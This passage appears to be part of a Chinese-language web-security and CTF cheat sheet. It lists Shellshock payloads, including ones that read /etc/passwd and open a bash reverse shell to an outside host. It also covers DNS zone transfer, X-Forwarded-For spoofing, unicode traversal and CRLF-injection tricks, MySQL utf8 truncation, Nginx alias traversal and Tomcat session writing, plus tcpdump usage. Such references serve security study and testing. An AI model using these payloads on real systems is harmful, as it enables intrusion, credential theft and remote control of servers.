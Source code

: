     - `() { :; }; echo vulnerable`
    - `() { :a; }; /bin/cat /etc/passwd`
    - `() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`

- X-forwarded-for偽造來源IP

- DNS Zone Transfer
    - `dig @1.2.3.4 abc.com axfr`
        - DNS Server: `1.2.3.4`
        - Test Domain: `abc.com`

- NodeJS unicode failure
    - 內部使用UCS-2編碼
    - `ＮＮ` => `..`
        - `Ｎ` 即 `\xff\x2e`
        - 轉型時捨棄第一個Byte

- 特殊的CRLF Injection繞過
    - `%E5%98%8A`
    - 原始的Unicode碼為`U+560A`
    - raw bytes: `0x56`, `0x0A`

- MySQL utf8 v.s. utf8mb4
    - MySQL utf8編碼只支援3 bytes
    - 若將4 bytes的utf8mb4插入utf8中，在non strict模式下會被截斷
    - CVE-2015-3438 WordPress Cross-Site Scripting Vulnerability

- Nginx目錄穿越漏洞
    - 常見於Nginx做Reverse Proxy的狀況
    ```
    location /files {
        alias /home/
    }
    ```
    - 因為`/files`沒有加上結尾`/`，而`/home/`有
    - 所以`/files../`可以訪問上層目錄


- Apache Tomcat Session操縱漏洞
    - 預設session範例頁面`/examples/servlets /servlet/SessionExample`
    - 可以直接對Session寫入

- tcpdump
    - `-i` 指定網卡，不指定則監控所有網卡
    - `-s` 默認只抓96bytes，可以-s指定更大數值
    - `-w` 指定輸出檔
    - `host` 指定主機(ip or domain)
    - `dst`, `src` 來源或目的端
    - `port`指定端口
    - `tcp`, `udp`, `icmp` 指定協議
    - example
        - 來源192.168.1.34且目的端口為80
            - `tcpdump -i eth0 src 192.168.1.34 and dst port 80`
        - 來源192.168.1.34且目的端口是22或3389
            - `tcpdump -i eth0 'src 192.168.1.34 and (dst port 22 or 3389)'`
        - 保存檔案，可以後續用wireshark分析
            - `tcpdump -i eth0 src kaibro.tw -w file.cap`
